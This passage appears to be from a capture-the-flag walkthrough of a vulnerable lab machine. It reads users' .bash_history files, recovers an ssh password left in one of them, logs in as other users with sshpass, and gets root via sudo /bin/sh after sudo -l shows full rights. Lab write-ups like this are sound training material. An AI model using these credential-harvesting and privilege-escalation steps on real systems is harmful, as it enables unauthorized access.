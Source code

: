     /home/LSolum2/.bash_history
    exit
    whoami
    /home/SStroud/.bash_history
    exit
    /home/LSolum/.bash_history
    exit
    /home/NATHAN/.bash_history
    exit
    /home/zoe/.bash_history
    top
    exit

*User* `JKanode` is not good with secrets as we discovered an ssh login and password



    sshpass -p thisimypassword ssh JKanode@localhost
    apt-get install sshpass
    sshpass -p JZQuyIN5 peter@localhost

Pivoting to different ssh user
Login as Peter

    ssh peter@192.168.56.108

Test what peter is capable of

    sudo -l

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550945016940_image.png)


Peter happens to be able to do `(ALL : ALL) ALL` well this can be used to our benefit.


# PRIV-ESC/ROOT

Lets have peter call /bin/sh with sudo

    sudo /bin/sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550945230850_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550945257578_image.png)


Bring me the root!

-exec
